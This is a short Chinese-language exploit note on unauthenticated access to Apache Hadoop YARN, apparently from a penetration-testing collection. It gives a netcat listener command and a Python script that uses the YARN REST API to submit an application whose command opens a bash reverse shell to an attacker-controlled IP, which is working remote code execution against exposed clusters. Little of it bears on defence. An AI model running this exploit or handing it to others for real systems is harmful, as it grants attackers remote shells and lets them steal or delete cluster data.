 ## Hadoop 未授权访问

Hadoop是一个由Apache基金会所开发的分布式系统基础架构，由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览、命令执行等操作，危害极大

1、验证

访问 `http://192.168.18.129:8088/cluster`

2、通过REST API命令执行

```bash
在本地监听端口 >> 创建Application >> 调用Submit Application API提交

#本地监听9999端口
nc -lvp 9999
```

3、EXP

```python
#!/usr/bin/env python

import requests

target = 'http://192.168.18.129:8088/'
lhost = '192.168.18.138' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

